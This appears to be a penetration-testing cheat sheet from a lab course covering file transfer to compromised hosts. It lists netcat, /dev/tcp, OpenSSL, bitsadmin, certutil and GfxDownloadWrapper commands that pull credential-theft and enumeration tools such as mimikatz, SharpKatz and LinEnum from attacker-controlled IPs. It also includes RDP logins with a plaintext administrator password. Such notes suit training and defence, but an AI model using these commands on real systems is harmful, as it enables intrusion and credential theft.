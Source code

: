 ### Netcat File Transfer

```bash
## Attack host sending
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

## Compromised machine listening
nc -l -p 8000 > SharpKatz.exe

## Alternative - /dev/tcp to receive
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer

TCP/5985 for HTTP
\
TCP/5986 for HTTPS.
```powershell
## Confirm WinRM port open
Test-NetConnection -ComputerName DATABASE01 -Port 5985

## Create remoting session
$Session = New-PSSession -ComputerName DATABASE01

## Copy localhost to remote
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\

## Copy remote to localhost
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP 

```bash
## Mounting linux folder (rdesktop)
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'

## Mounting linux folder (xfreerdp)
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

## LOLBAS/GTFOBINS

### OpenSSL File Transfer

```bash
## Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

## Stand up server
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

## Download from compromised host
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Bitsadmin File Transfer

```powershell
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe

Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### CertUtil File Transfer

```powershell
## Download 
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

### GfxDownloadWrapper

```powershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```